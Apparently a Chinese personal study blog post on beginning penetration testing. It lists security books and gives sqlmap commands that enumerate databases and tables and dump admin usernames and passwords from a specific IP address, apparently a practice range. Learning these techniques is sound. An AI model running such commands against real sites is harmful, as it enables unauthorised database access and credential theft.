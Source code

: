 ```yaml
---
layout:     post
title:      渗透测试01
subtitle:   学习
date:       2019-05-05
author:     swq
header-img: img/post-bg-hacker.jpg
catalog: true
tags:
    - hacker
---
```

# 书籍记录

1. web安全书籍类（都是经典中的经典）：《白帽子讲Web安全》《SQL注入攻击与防御 》《Web安全深度剖析》《Web前端黑客技术揭秘》《黑客攻防技术宝典  Web实战篇 》
2. kali渗透测试类书籍：《Metasploit渗透测试魔鬼训练营》《Metasploit渗透测试指南》《KALI渗透测试技术实战》《kali linux官方手册》


# day01


今天在上班空闲时间学习使用了下 sqlmap，主要是昨晚视频中的简单的 sql 注入测试

先自己手动找注入点，1=2 等，然后找到注入点之后使用 sqlmap

找到数据库名
```sqlmap -u "http://59.63.200.79:8003/?id=1"  --dbs```

找到表名

```sqlmap -u "http://59.63.200.79:8003/?id=1"  -D maoshe --tables```

通过判断类似账号的表来查字段名

```sqlmap -u "http://59.63.200.79:8003/?id=1"  -D maoshe -T admin --columns```

然后找数据

```sqlmap -u "http://59.63.200.79:8003/?id=1"  -D maoshe -T admin -C username,password  --dump```

如果密码加密的话还需要一些 md5 解密等



当然 ，这只是一个最初级的 sql 注入，总归是自己能有点成果


									2019.11.28

